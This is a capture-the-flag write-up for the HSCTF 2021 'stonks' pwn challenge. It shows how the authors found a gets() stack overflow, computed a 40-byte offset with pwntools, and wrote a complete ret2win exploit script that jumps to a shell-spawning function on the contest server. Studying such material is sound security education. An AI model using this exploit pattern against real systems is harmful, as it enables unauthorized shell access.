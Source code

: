 ```yaml
---
layout: load_md
title: The White Circle | Hsctf 2021 | stonks Writeup
desc: Check out our writeup for stonks for Hsctf 2021 capture the flag competition.
image: images/twc_og_banner.jpg
ctf: Hsctf 2021
parent: hsctf_2021
category: pwn
challenge: stonks
tags: "pwn, taz, twh, python"
date: 2021-06-20T00:00:00+00:00
last_modified_at: 2021-06-20T00:00:00+00:00
---
```



> Solved By : Taz and thewhiteh4t

![](https://i.imgur.com/Xthi7zA.png)

* after disassembling :

![](https://i.imgur.com/sUMBjXD.png)

* vuln function disassembled :

![](https://i.imgur.com/u5piK7j.png)

* gets is used, lets calculate the offset at which it crashes :

```python
from pwn import *

p = process("./chal")
p.sendline(cyclic(200, n=8)) # n -> architecture | 8 -> 64bit
p.wait()

core = p.corefile
offset = cyclic_find(core.read(core.rsp, 8), n=8)
print(offset)
```

OUTPUT :

![](https://i.imgur.com/QLOSyKX.png)

* offset is 40

* finding all functions :

```
info functions
```

![](https://i.imgur.com/0WKx65a.png)

* when we checked `ai_debug` we found that it has a system call!

![](https://i.imgur.com/ONyEGVn.png)

* then we checked what its doing :

```
b main
run
jump ai_debug
```

OUTPUT :

![](https://i.imgur.com/PIRlX9z.png)

* it is executing `/usr/bin/dash` so we can get a shell if we can call ai_debug function

* Address of ai_debug :

![](https://i.imgur.com/GNc8x6K.png)

Exploit :

```python
#!/usr/bin/python3

from pwn import *

host = 'stonks.hsc.tf'
port = 1337
offset = 40
addr = 0x401258
ret = 0x4012f3

junk = b'A' * offset
le_num = p64(addr)
le_ret = p64(ret)
buffer = junk + le_ret + le_num

conn = remote(host, port)
conn.recvuntil('symbol:')
conn.sendline(buffer)
conn.interactive()
```

* Return address has been added because there is a stack alignment issue caused by LIBC present in Ubuntu i.e. the container running on the target

* Exploit was working locally but not remotely so we found this reddit thread

* https://www.reddit.com/r/securityCTF/comments/nbb5z2/buffer_overflow_works_fine_locally_but_not/

* Thanks to [Andr3](https://github.com/AndreaCarosi-7) and hiatus!

OUTPUT :

![](https://i.imgur.com/FN6LiSU.png)
